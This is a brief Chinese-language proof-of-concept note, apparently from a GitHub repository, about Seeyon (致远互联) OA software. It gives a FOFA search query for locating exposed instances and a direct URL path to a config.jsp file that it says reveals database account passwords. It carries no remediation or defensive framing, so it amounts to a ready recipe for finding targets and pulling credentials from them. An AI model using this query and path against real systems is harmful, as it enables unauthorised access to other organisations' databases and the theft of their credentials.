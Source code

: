 ## 资产收集：
fofa：body="yyoa" && app="致远互联-OA"
![](img/ksoa.png)
## POC：
可获取数据库账户密码等信息：   
`/yyoa/ext/trafaxserver/SystemManage/config.jsp`  
![](img/config.png)
